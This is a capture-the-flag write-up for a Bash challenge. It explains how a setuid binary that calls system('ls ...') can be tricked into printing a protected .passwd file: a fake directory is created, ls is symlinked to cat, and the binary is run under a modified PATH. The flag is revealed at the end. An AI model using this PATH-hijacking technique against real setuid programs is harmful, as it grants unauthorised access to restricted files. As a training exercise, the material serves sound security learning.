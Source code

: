 ---
tags: []
---
# Bash - System 1

- **Description:** Find your path, padawan!
- **Difficulty:** Very easy

---

## 🔎 Solution
Upon connecting to the target machine, we are presented with a list of files in the current directory:
```js
app-script-ch11@challenge02:~$ ls -la
total 36
dr-xr-x---  2 app-script-ch11-cracked app-script-ch11 4096 Dec 10  2021 .
drwxr-xr-x 25 root                    root            4096 Sep  5  2023 ..
//highlight-start
-r-sr-x---  1 app-script-ch11-cracked app-script-ch11 7252 Dec 10  2021 ch11
-r--r-----  1 app-script-ch11-cracked app-script-ch11  187 Dec 10  2021 ch11.c
//highlight-end
-rw-r-----  1 root                    root              43 Dec 10  2021 .git
-r--r-----  1 app-script-ch11-cracked app-script-ch11  494 Dec 10  2021 Makefile
//highlight-next-line
-r--------  1 app-script-ch11-cracked app-script-ch11   14 Dec 10  2021 .passwd
-r--------  1 root                    root             775 Dec 10  2021 ._perms
```
Our goal is to read the contents of the `.passwd` file in order to retrieve the flag. 
However, direct access is restricted:
```
app-script-ch11@challenge02:~$ cat .passwd 
cat: .passwd: Permission denied
```

Looking into the source code, we observe that when the binary `ch11` is executed, it internally runs the command `ls /challenge/app-script/ch11/.passwd`. 
```c
int main(void)
{
    setreuid(geteuid(), geteuid());
    system("ls /challenge/app-script/ch11/.passwd");
    return 0;
}
```

Since we have execute permission on ch11, we can use this behavior to our advantage:
```
app-script-ch11@challenge02:~$ ./ch11 
/challenge/app-script/ch11/.passwd
```

There are multiple possible approaches from here, but we'll go with **a symbolic link** (symlink) attack by exploiting how the system("`ls ...`") call works.

Key observations:
- The `system()` function does not invoke `/bin/ls` directly.
- Instead, it spawns a shell (`/bin/sh`) which resolves ls using the **PATH** environment variable.
- If we override the **PATH** variable to point to *a fake ls* (which is actually a symlink to *cat*), we can trick the program into executing *cat* instead of *ls*.

Here's how to do it:
1. Create a fake directory:
```
mkdir /tmp/fake
```
2. Create a symbolic link from `ls` to `cat`:
```
ln -s /bin/cat /tmp/fake/ls
```
3. Run the vulnerable binary with the modified PATH:
```
app-script-ch11@challenge02:~$ PATH=/tmp/fake:$PATH ./ch11
!oPe96a/.s8d5
```
And just like that, the contents of `.passwd` are revealed, giving us the flag.

## 🚩Flag
> `!oPe96a/.s8d5`
